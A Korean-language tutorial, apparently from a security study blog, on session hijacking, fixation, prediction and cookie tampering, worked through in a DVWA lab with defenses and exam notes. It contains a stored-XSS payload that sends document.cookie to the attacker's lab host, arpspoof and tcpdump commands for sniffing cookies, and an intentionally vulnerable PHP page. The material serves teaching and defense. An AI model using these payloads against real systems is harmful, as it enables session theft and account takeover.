




## 실습 환경

| 구분 | 내용 |
|---|---|
| 공격자 | Kali Linux (192.168.56.10) |
| 대상 | Ubuntu + DVWA (192.168.56.30/DVWA/) |
| 도구 | Burp Suite, tcpdump, python3 |

---

## OWASP Top 10 매핑

| 항목 | 내용 |
|---|---|
| OWASP 카테고리 | **A07:2025 – Authentication Failures** (2021: Identification and Authentication Failures) |
| CWE | CWE-384 (Session Fixation) · CWE-330 (예측 가능한 세션 ID) · CWE-614 (Secure 미설정 쿠키) |
| 영향 | 세션 ID 예측·탈취·고정으로 **로그인 없이 타 사용자 세션 탈취(세션 하이재킹)** |
| 한 줄 핵심 | 세션 ID가 **예측 가능**하거나, **전송/저장이 안전하지 않거나**, **로그인 후 재발급되지 않을** 때 발생 |

> 세션 관리는 인증의 연장선이므로 **A07:2025 Authentication Failures**에 속합니다.  
> 세 가지 축으로 기억합니다 — ① 충분한 엔트로피(예측 불가), ② 안전한 전달(HTTPS·HttpOnly·SameSite), ③ 로그인 시 세션 재발급(고정 방지).
{: .prompt-info }

---

## 공격의 역사와 주요 사건

### 유래와 발견

세션 공격은 HTTP가 **무상태(stateless)** 라는 한계를 보완하려고 "세션 ID"라는 임시 신분증을 도입한 순간부터 따라다녔습니다. 신분증이 곧 인증의 전부가 되니, **그 신분증을 훔치거나·예측하거나·미리 심어 두면** 비밀번호 없이도 남이 될 수 있습니다.

세 가지 유형 중 **세션 고정(Session Fixation)** 은 **2002년 12월 슬로베니아 보안 연구자 Mitja Kolšek(ACROS Security)이 발표한 논문** "Session Fixation Vulnerability in Web-based Applications"으로 정식화되었습니다. "공격자가 먼저 세션 ID를 정해 두고, 피해자가 그 ID로 로그인하게 만든다"는 역발상이었습니다.

세션 하이재킹의 위험성을 대중에게 각인시킨 것은 **2010년 10월 Eric Butler가 공개한 Firefox 확장 프로그램 "Firesheep"** 입니다.

### 주요 침해 사건

| 연도 | 사건 | 내용 |
|---|---|---|
| 2007 | **Sidejacking 시연** (Robert Graham, Black Hat)[^c06_sidejack] | Hamster/Ferret 도구로 공개 Wi-Fi의 평문 세션 쿠키를 가로채 계정을 가로채는 기법을 공개 시연 |
| 2010 | **Firesheep** (Eric Butler)[^c06_firesheep] | **클릭 한 번**으로 같은 Wi-Fi 사용자들의 Facebook·Twitter 세션을 가로채는 확장 프로그램. 누구나 쓸 수 있게 만들어 충격을 줌 → 업계가 **전 구간 HTTPS(HTTPS Everywhere)** 로 전환하는 계기 |
| 2010~ | **HTTPS 전면 적용 흐름** | Firesheep 직후 Facebook·Twitter·Google이 차례로 기본 HTTPS를 도입 |

> Firesheep의 의의는 "고급 해커만 하던 세션 탈취를 **일반인도 클릭 한 번으로** 하게 만들었다"는 점입니다. 이 사건이 **"로그인 페이지만 HTTPS"가 아니라 "전 구간 HTTPS"** 가 표준이 된 분기점입니다.
{: .prompt-warning }

### 왜 이 공격이 통하는가 — 근본 원리

세션 ID는 일종의 **무기명 출입증(bearer token)** 입니다. "이 값을 가진 사람 = 로그인한 사람"으로 취급하므로, **누가 들고 있는지는 따지지 않습니다.** 그래서 세 갈래로 뚫립니다.

- **예측(Prediction)**: 세션 ID가 `1, 2, 3…`처럼 순차거나 타임스탬프 기반이면, 공격자가 **다음 값을 추측**해 남의 출입증을 위조합니다. → 충분한 엔트로피(128비트 이상 난수)가 필요한 이유.
- **탈취(Hijacking)**: 평문 HTTP로 전송되면 도청으로, XSS가 있으면 `document.cookie`로 출입증을 **그대로 복사**당합니다. → HTTPS·HttpOnly가 필요한 이유.
- **고정(Fixation)**: 로그인 후에도 세션 ID를 **그대로 유지**하면, 공격자가 미리 심어 둔 출입증이 "로그인된 출입증"으로 승격됩니다. → 로그인 시 `session_regenerate_id()`로 **재발급**해야 하는 이유.

```
세션 ID = 무기명 출입증
  예측 가능?  → 다음 값 추측 (Prediction)
  전송/저장 노출? → 복사 (Hijacking)
  로그인 후 그대로? → 미리 심어 둔 값이 인증됨 (Fixation)
```

결국 방어는 ① **예측 불가능하게 생성**, ② **안전하게 전달·저장**(HTTPS·HttpOnly·SameSite), ③ **로그인 시 재발급 + 적절한 만료**라는 세 시점에 모두 적용해야 완성됩니다.

---

## 1. 이론: HTTP 무상태성과 세션

### 1.1 왜 세션이 필요한가

HTTP는 **Stateless(무상태)** 프로토콜입니다.  
요청과 응답이 끝나면 서버는 이전 요청을 기억하지 않습니다.

이 특성 때문에 "로그인 상태 유지"가 기본적으로 불가능합니다.  
그래서 서버는 **세션(Session)** 이라는 임시 저장 공간을 만들고,  
브라우저는 **쿠키(Cookie)** 를 통해 세션 ID를 매 요청마다 서버에 전달합니다.

```mermaid
sequenceDiagram
    participant U as 사용자
    participant B as 브라우저
    participant S as 서버

    U->>B: 아이디/비밀번호 입력
    B->>S: POST /login
    S->>S: 인증 성공 → 세션 생성 (PHPSESSID=abc123)
    S->>B: Set-Cookie: PHPSESSID=abc123; HttpOnly; Secure
    B->>S: GET /mypage (Cookie: PHPSESSID=abc123)
    S->>B: 로그인된 사용자로 응답
```

즉 세션 ID가 곧 **"나는 로그인된 사람이다"** 라는 증명서입니다.  
이 증명서를 탈취당하면 비밀번호 없이도 계정이 도용됩니다.

---

### 1.2 세션 공격 유형 3가지

| 공격 유형 | 핵심 원리 | 필요 조건 |
|---|---|---|
| **Session Hijacking** | 이미 발급된 세션 ID를 탈취하여 사용자 가장 | 유효한 세션 ID 획득 |
| **Session Fixation** | 공격자가 미리 세션 ID를 정해 피해자가 그 ID로 로그인하도록 유도 | 로그인 전 세션 ID 주입 가능 |
| **Session Prediction** | 세션 ID의 패턴/규칙을 분석해 유효한 세션 추측 | 취약한 세션 ID 생성 알고리즘 |

---

### 1.3 세션 하이재킹 공격 경로



---

### 1.4 쿠키 보안 속성

| 속성 | 역할 |
|---|---|
| `HttpOnly` | JS로 쿠키 읽기 불가 → XSS 쿠키 탈취 방지 |
| `Secure` | HTTPS에서만 전송 → 네트워크 도청 방지 |
| `SameSite=Strict/Lax` | 외부 사이트 요청 시 쿠키 미전송 → CSRF 방지 |
| `Expires/Max-Age` | 유효기간 설정 → 세션 만료 처리 |
| `Domain/Path` | 쿠키가 유효한 도메인/경로 범위 제한 |

> **핵심**: 세션 쿠키에는 `HttpOnly + Secure + SameSite=Strict` 를 기본으로 설정해야 합니다.
{: .prompt-tip }

---

## 2. 실습 1 — Weak Session IDs (세션 ID 예측)

**경로**: DVWA > Weak Session IDs

### 2.1 실습 목표

세션 ID가 얼마나 예측하기 쉬운지 레벨별로 확인하고, Low 레벨에서 실제 세션 탈취를 시도합니다.

### 2.2 진행 절차

**1단계: DVWA Weak Session IDs 페이지 접속**

```
http://192.168.56.30/DVWA/vulnerabilities/weak_id/
```

**2단계: "Generate" 버튼을 여러 번 눌러 세션 ID 변화 관찰**

Burp Suite Proxy를 통해 응답 헤더에서 `dvwaSession` 쿠키 값을 확인합니다.

**3단계: 레벨별 공격·방어 한눈에 (Weak Session IDs 모듈)**

| 레벨 | 세션 ID 생성 방식 | 공격(예측) 방안 | 방어 관점 |
|---|---|---|---|
| **Low** | 순차 증가 숫자 (1, 2, 3…) | 값을 `±1` 씩 바꿔 대입(`dvwaSession=5`) → 즉시 타 세션 탈취 | 예측 가능 → 사용 금지 |
| **Medium** | Unix Timestamp | 피해자 접속 시각 추정 → 좁은 범위 타임스탬프 전수 대입 | 시간 기반도 예측 가능 |
| **High** | 랜덤값의 **MD5 해시** | 입력 시드가 약하면 사전·역상 시도, 사실상 예측 난이도 높음 | 충분한 엔트로피면 안전에 근접 |
| **Impossible** | **HMAC + 서버 비밀키** | 비밀키를 모르면 위조 불가 | 위조·예측 모두 차단(근본) |

> 핵심: 세션 ID의 안전성은 **엔트로피(예측 불가능성)** 에 달려 있습니다.  
> Low/Medium처럼 규칙이 보이면 대입으로 뚫리고, Impossible처럼 **서버 비밀키 기반 HMAC**이면 위조가 불가능합니다.
{: .prompt-tip }

**4단계: Low 레벨에서 세션 탈취 시도**

Burp Suite > Repeater에서 `Cookie: dvwaSession=5` 처럼 순차 값을 수동 입력한 뒤,  
다른 사용자의 세션으로 교체하여 응답 차이를 확인합니다.

### 2.3 결과 분석

Low 레벨처럼 세션 ID가 1씩 증가한다면,  
공격자는 현재 접속 중인 다른 사용자의 세션 ID를 **1씩 증가시켜 모두 시도** 하는 것만으로 탈취가 가능합니다.

> **교훈**: 세션 ID는 **128bit 이상의 암호학적 난수** 로 생성해야 합니다.
{: .prompt-warning }

---

## 3. 실습 2 — XSS를 이용한 쿠키 탈취 (세션 하이재킹)

### 3.1 공격 흐름



### 3.2 진행 절차

**1단계: Kali에서 쿠키 수신 서버 실행**

```bash
python3 -m http.server 8000
```

**2단계: DVWA > XSS (Stored) 에서 악성 스크립트 게시**

```
http://192.168.56.30/DVWA/vulnerabilities/xss_s/
```

Name 필드 또는 Message 필드에 아래 스크립트를 입력합니다:

```javascript
<script>
var img = new Image();
img.src = 'http://192.168.56.10:8000/steal?cookie=' + document.cookie;
</script>
```

> Low 레벨에서는 입력 필터링 없이 그대로 저장됩니다.
{: .prompt-info }

**3단계: 피해자가 게시글 조회**

다른 브라우저(또는 시크릿 창)에서 동일한 게시글 페이지를 방문하면,  
Kali의 http.server 로그에 다음과 같이 쿠키가 기록됩니다:

```
192.168.56.30 - - [01/Jun/2026] "GET /steal?cookie=PHPSESSID=abcdef123456;%20security=low HTTP/1.1" 200 -
```

**4단계: 탈취한 세션 ID로 접속**

방법 A — Burp Suite Repeater:
1. Burp Suite > Proxy > HTTP History에서 DVWA 요청 선택
2. "Send to Repeater"
3. Cookie 헤더의 PHPSESSID 값을 탈취한 값으로 교체
4. Send → 피해자 세션으로 응답 수신 확인

방법 B — 브라우저 DevTools:
1. F12 > Application > Cookies
2. `PHPSESSID` 값을 탈취한 세션 ID로 직접 수정
3. 페이지 새로고침 → 피해자 계정으로 로그인된 상태 확인

---

## 4. 실습 3 — Session Fixation 시나리오

### 4.1 공격 원리

세션 고정(Session Fixation)은 **공격자가 세션 ID를 먼저 정하고**,  
피해자가 그 ID를 그대로 사용해 로그인하도록 유도하는 공격입니다.



### 4.2 취약한 코드 vs 안전한 코드

**취약한 코드 (세션 ID 재발급 없음)**:

```php
<?php
session_start();
if (login_success($username, $password)) {
    $_SESSION['user'] = $username;
    // 로그인 후에도 세션 ID가 그대로 유지됨!
    // 공격자가 미리 심어둔 세션 ID를 그대로 인증에 사용
}
?>
```

**안전한 코드 (로그인 후 세션 ID 재발급)**:

```php
<?php
session_start();
if (login_success($username, $password)) {
    session_regenerate_id(true);  // 기존 세션 파기 + 새 세션 ID 발급
    $_SESSION['user'] = $username;
}
?>
```

`session_regenerate_id(true)` 호출 시 다음이 수행됩니다:
- 기존 세션 파일 삭제 (`true` 파라미터)
- 새로운 세션 ID 생성 및 쿠키 재발급
- 공격자가 심어둔 세션 ID는 무효화

> **로그인, 권한 상승, 비밀번호 변경 직후에는 반드시 세션 ID를 재발급해야 합니다.**
{: .prompt-danger }

---

## 5. 실습 4 — 네트워크 도청으로 세션 탈취

HTTP(비암호화) 환경에서 ARP Spoofing 또는 동일 네트워크 접근이 가능한 경우,  
`tcpdump` 로 세션 쿠키를 직접 추출할 수 있습니다.

### 5.1 tcpdump로 쿠키 추출

```bash
# Kali에서 실행 (eth0는 자신의 인터페이스로 교체)
tcpdump -i eth0 -A \
  'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)' \
  | grep -i "cookie"
```

HTTP 요청 패킷 중 `Cookie:` 헤더가 포함된 라인이 출력됩니다:

```
Cookie: PHPSESSID=abcdef123456; security=low
```

### 5.2 ARP Spoofing + 도청 (개념)

```bash
# 게이트웨이와 피해자 사이에 끼어들기 (arpspoof 사용)
arpspoof -i eth0 -t 192.168.56.30 192.168.56.1
arpspoof -i eth0 -t 192.168.56.1 192.168.56.30
```

이후 tcpdump로 192.168.56.30의 HTTP 트래픽을 수신하면  
피해자의 세션 쿠키를 평문으로 확인할 수 있습니다.

> **이 공격은 HTTPS 환경에서는 동작하지 않습니다.** TLS 암호화가 세션 쿠키를 보호합니다.  
> DVWA는 HTTP로 운영되므로 실습 환경에서만 확인 가능합니다.
{: .prompt-warning }

---

## 6. 실습 5 — Burp Suite로 세션 관리 분석

### 6.1 세션 토큰 엔트로피 분석 (Sequencer)

Burp Suite에는 세션 토큰의 랜덤성(엔트로피)을 분석하는 **Sequencer** 기능이 있습니다.

1. **Proxy > HTTP History** 에서 세션 쿠키가 포함된 응답 선택
2. 우클릭 > **"Send to Sequencer"**
3. Sequencer > **"Start live capture"** 클릭
4. 충분한 샘플(수백 개) 수집 후 **"Analyze now"**

| 결과 | 의미 |
|---|---|
| 엔트로피 낮음 (< 64bit) | 세션 ID 예측 가능 → 취약 |
| 엔트로피 높음 (> 128bit) | 충분히 안전 |

### 6.2 Comparer로 세션 ID 패턴 비교

1. Sequencer에서 여러 세션 ID 샘플 수집
2. **Comparer** 에 붙여넣기
3. 시각적으로 패턴/반복 구조 확인

Low 레벨의 순차 숫자 세션은 Comparer에서 뚜렷한 패턴이 보입니다.

---

## 7. 방어 방법

### 7.1 개발자 관점: 안전한 세션 설정 (PHP 예시)

```php
<?php
// 세션 쿠키에 보안 속성 적용
session_set_cookie_params([
    'lifetime' => 1800,        // 30분 후 만료
    'path'     => '/',
    'secure'   => true,        // HTTPS에서만 전송
    'httponly' => true,        // JS 접근 불가
    'samesite' => 'Strict'     // 외부 사이트 요청 시 미전송
]);
session_start();

// 로그인 성공 후 반드시 세션 ID 재발급
if (login_success($username, $password)) {
    session_regenerate_id(true);
    $_SESSION['user'] = $username;
    $_SESSION['login_time'] = time();
}

// 30분 무활동 시 자동 로그아웃
if (isset($_SESSION['login_time'])) {
    if (time() - $_SESSION['login_time'] > 1800) {
        session_destroy();
        header("Location: /login");
        exit();
    }
    $_SESSION['login_time'] = time(); // 활동 시 갱신
}
?>
```

### 7.2 방어 체크리스트

| 항목 | 설명 |
|---|---|
| 세션 ID 재발급 | 로그인, 권한 변경 후 `session_regenerate_id(true)` |
| HttpOnly 쿠키 | JS로 쿠키 읽기 불가 → XSS 탈취 방지 |
| Secure 쿠키 | HTTPS 전용 전송 → 네트워크 도청 방지 |
| SameSite=Strict | 외부 사이트 요청 시 쿠키 차단 → CSRF 방지 |
| 세션 만료 설정 | 30분 무활동 자동 로그아웃 |
| 충분한 엔트로피 | 세션 ID 128bit 이상 암호학적 난수 |
| HTTPS 강제 적용 | 네트워크 도청 원천 차단 |
| 재인증 요구 | 비밀번호 변경·결제 등 중요 작업 시 재로그인 |
| IP 바인딩 (보조) | 세션과 IP 연결 (모바일 환경 주의) |

> **가장 중요한 두 가지**: HTTPS 강제 + 로그인 후 세션 ID 재발급  
> 이 둘만 제대로 지켜도 세션 공격의 대부분을 차단할 수 있습니다.
{: .prompt-tip }

---

## 8. 정리



세션 보안의 핵심은 세 단계에서 모두 방어를 적용하는 것입니다.

1. **세션 ID 생성 단계**: 예측 불가능하게 만들고, 인증 후 재발급
2. **세션 ID 전달 단계**: 쿠키 보안 속성으로 탈취 경로 차단
3. **세션 관리 단계**: 적절한 만료와 무효화 처리

DVWA 실습을 통해 각 취약점이 실제로 어떻게 동작하는지 확인하고,  
방어 코드 적용 전후의 차이를 직접 비교해 보는 것이 이 실습의 목표입니다.

---

## 9. 쿠키 변조 점검 (KISA 보강)

세션 하이재킹(3장)이 **세션 ID를 훔치는** 공격이라면, **쿠키 변조(Cookie Tampering)** 는 쿠키에 담긴 **값 자체를 고쳐** 권한을 올리는 공격입니다. KISA *상세가이드* 의 「쿠키 변조(CC)」 항목입니다.

### 9.1 원리

애플리케이션이 **인증/권한 정보를 쿠키에 그대로 담고 서버가 이를 신뢰**하면, 공격자가 `username=user`를 `username=admin`으로 바꿔 다른 사용자/권한으로 행세합니다. 서버 세션을 쓰지 않고 쿠키만으로 인증·권한을 판단하는 설계가 근본 원인입니다.

### 9.2 실습 환경 구성

쿠키 값을 그대로 신뢰하는 페이지(`/var/www/html/cookie_auth.php`):

```php
<?php
// [의도적 취약] 쿠키 username 을 그대로 신뢰
if (!isset($_COOKIE['username'])) {
    setcookie('username', 'user');   // 최초 접속 시 일반 사용자 부여
    echo "쿠키 발급: user 로 로그인됨";
} else {
    $u = $_COOKIE['username'];
    echo "Welcome, $u" . ($u === 'admin' ? " — 관리자 권한!" : "");
}
?>
```

### 9.3 점검 (KISA Step 1~2)

```bash
# Step 1) 발급된 쿠키에 중요 정보(식별자/권한)가 노출되는지
curl -i -s http://192.168.56.30/cookie_auth.php | grep -i set-cookie
# → Set-Cookie: username=user

# Step 2) 쿠키 값을 변조해 권한 상승되는지
curl -s --cookie "username=admin" http://192.168.56.30/cookie_auth.php
# → "Welcome, admin — 관리자 권한!" 이면 취약
```

> **DVWA로도 확인**: DVWA는 보안 레벨을 `security` **쿠키**에 저장합니다. Burp/DevTools로 `security=low`를 `security=high`로 바꾸면 UI를 거치지 않고 레벨이 바뀝니다 — 클라이언트 쿠키를 신뢰하면 어떻게 되는지 보여 주는 살아있는 예시입니다.
{: .prompt-tip }

### 9.4 조치

1. 인증·권한은 **쿠키가 아니라 서버 사이드 세션**으로 관리
2. 부득이 쿠키에 중요 정보를 담으면 **안전한 알고리즘(SEED·3DES·AES)으로 암호화**
3. **HMAC 서명으로 변조 검증** + `HttpOnly`·`Secure`·`SameSite` 속성 적용

```php
// 안전: 값 암호화 + HMAC 서명 + 보안 속성
$enc = openssl_encrypt($value, "AES-256-CBC", $key, OPENSSL_RAW_DATA, $iv);
$mac = hash_hmac('sha256', $iv.$enc, $hmacKey);
setcookie('data', base64_encode($iv.$mac.$enc), [
    'httponly' => true, 'secure' => true, 'samesite' => 'Lax'
]);
// 읽을 때: hash_equals() 로 HMAC 검증 후 복호화 (변조 시 거부)
```

---

## 10. 정보보안기사 시험 포인트

| 구분 | 꼭 외울 것 |
|---|---|
| **세션 공격 3종** | Hijacking(탈취) / Fixation(고정) / Prediction(예측) |
| **쿠키 변조** | 쿠키에 권한 저장 후 서버가 신뢰 → 변조로 권한 상승. 조치: **서버 세션 / 암호화(SEED·AES) / HMAC 서명** |
| **불충분한 세션 만료** | 타임아웃 미설정·과도하게 긴 설정 → 만료 안 된 세션 재활용. **인증 후 일정 시간(10분↑) 경과 뒤 재요청**으로 점검, 타임아웃 **10분 권고** |
| **쿠키 보안 속성** | `HttpOnly`(JS 접근 차단)·`Secure`(HTTPS 전용)·`SameSite`(CSRF 방지) |
| **세션 ID 생성** | 128bit 이상 암호학적 난수, 로그인 후 **재발급** |

> **★ 자주 나오는 함정**: "불충분한 세션 만료" 점검 방법은 **재요청 시 재처리 여부 확인**입니다. 이것을 다른 취약점(예: 관리자 페이지 노출) 점검 방법과 섞은 보기가 출제됩니다. 상세 이론은 **11번 포스트 3.4장** 참고.
{: .prompt-tip }

---

## 출처 및 참고 자료

본문의 사건·연혁은 아래 출처에 근거합니다(각주 번호를 클릭하면 이동).

**더 읽어보기**

- 세션 고정: M. Kolšek(ACROS Security), "Session Fixation Vulnerability in Web-based Applications"(2002) — <https://acrossecurity.com/papers/session_fixation.pdf>
- OWASP Session Management Cheat Sheet — <https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html>

[^c06_sidejack]: R. Graham, "Sidejacking with Hamster/Ferret"(Black Hat 2007). Errata Security. <https://blog.erratasec.com/2007/08/sidejacking-with-hamster_05.html>
[^c06_firesheep]: Firesheep — Eric Butler, 2010(ToorCon); 공개 Wi-Fi 세션 하이재킹을 대중화. Wikipedia. <https://en.wikipedia.org/wiki/Firesheep>
